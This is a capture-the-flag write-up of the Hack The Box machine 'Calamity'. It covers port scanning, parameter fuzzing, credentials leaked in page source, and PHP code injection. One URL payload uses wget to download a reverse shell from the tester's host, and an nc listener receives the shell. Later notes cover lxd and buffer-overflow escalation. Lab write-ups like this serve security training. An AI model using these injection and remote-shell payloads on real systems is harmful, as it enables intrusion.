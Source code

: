 # HTB - Calamity  10.10.10.27


- Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
- Ubuntu 16.04.2 LTS 




## NMap

```# nmap -sC -sV -A 10.10.10.27 -p-
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-23 23:54 CEST
Nmap scan report for 10.10.10.27
Host is up (0.030s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:46:31:9c:b5:71:c5:96:91:7d:e4:63:16:f9:59:a2 (RSA)
|   256 10:c4:09:b9:48:f1:8c:45:26:ca:f6:e1:c2:dc:36:b9 (ECDSA)
|_  256 a8:bf:dd:c0:71:36:a8:2a:1b:ea:3f:ef:66:99:39:75 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Brotherhood Software

```


## http://10.10.10.27/

![](img/calamity.png)


## http://10.10.10.27/admin.php

![](img/calamity_login.png)

Credentials found in  Response : Burp or Page Source
```
<!-- password is:skoupidotenekes-->
```
==> admin:skoupidotenekes


Once loged, a cokkie is set.

Cookie: adminpowa=noonecares
Can change the cookie value, noone care..


http://10.10.10.27/admin.php?html=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
Command is subject to XSS

Try to wfuzz to get other command..

?html => Add html in page.

```
# wfuzz -z file,./burp-parameter-names.txt  http://10.10.10.27/admin.php?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.27/admin.php?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000067:  C=200     10 L	      25 W	    451 Ch	  "pass"
000068:  C=200     10 L	      25 W	    451 Ch	  "dir"
000069:  C=200     10 L	      25 W	    451 Ch	  "show"
000070:  C=200     10 L	      25 W	    451 Ch	  "h"
000071:  C=200     10 L	      25 W	    451 Ch	  "value"

# wfuzz -z file,./burp-parameter-names.txt --hh=451  http://10.10.10.27/admin.php?FUZZ=echo

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://10.10.10.27/admin.php?FUZZ=echo
Total requests: 2588

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================


Total time: 8.836157
Processed Requests: 2588
Filtered Requests: 2588
Requests/sec.: 292.8874

```


## Found webpage http://10.10.10.27/uploads/



### php injection : <?php phpinfo(); ?>

Some injections
http://10.10.10.27/admin.php?html=%3C%3Fphp+system("pwd")%3B%3F%3E
http://10.10.10.27/admin.php?html=%3C%3Fphp+system("ls")%3B%3F%3E

Serve php-reverse-shell.php
Update IP & port in php.

http://10.10.10.27/admin.php?html=%3C%3Fphp+system(%22wget%20http://10.10.14.36/shell.php%20-O%20uploads/shell.php%22)%3B%3F%3E

http://10.10.10.27/uploads/shell.php


```
# nc -lvp 4444
listening on [any] 4444 ...
10.10.10.27: inverse host lookup failed: Unknown host
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.27] 50122
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
 18:42:32 up 48 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## System

```
$ cat /etc/issue
Ubuntu 16.04.2 LTS \n \l

www-data@calamity:/home/xalvas$ uname -a
Linux calamity 4.4.0-81-generic #104-Ubuntu SMP Wed Jun 14 08:15:00 UTC 2017 i686 athlon i686 GNU/Linux
www-data@calamity:/home/xalvas$ 

```


## Wav files

Download .wav files
- recov.wav
- rick.wav


sudo apt-get install audacity
load rick
import recov
invert rick

Play => 18547936..*

## ssh xalvas@10.10.10.27 : 18547936..*

### Exploit 1 : lxc

groups => lxd

lxc help

lxc is installed...
We can use docker exploit

- Walk: https://www.hackingarticles.in/hack-the-box-challenge-calamity-walkthrough/


### suid + buffer overflow

- Walk: https://0x00sec.org/t/htb-calamity-write-up-ret2mprotect-bypass-nx-info-leak/5139

```
$ cd app
$ readelf -W -l goodluck 2>/dev/null

Elf file type is DYN (Shared object file)
Entry point 0x7e0
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x00000034 0x00000034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x00000154 0x00000154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x00000000 0x00000000 0x013ec 0x013ec R E 0x1000
  LOAD           0x001ee8 0x00002ee8 0x00002ee8 0x0017c 0x00198 RW  0x1000
  DYNAMIC        0x001ef4 0x00002ef4 0x00002ef4 0x000f0 0x000f0 RW  0x4
  NOTE           0x000168 0x00000168 0x00000168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x001124 0x00001124 0x00001124 0x00084 0x00084 R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x001ee8 0x00002ee8 0x00002ee8 0x00118 0x00118 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .plt.got .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .jcr .dynamic .got .got.plt .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .jcr .dynamic .got 


$ cat /proc/sys/kernel/randomize_va_space
0

```

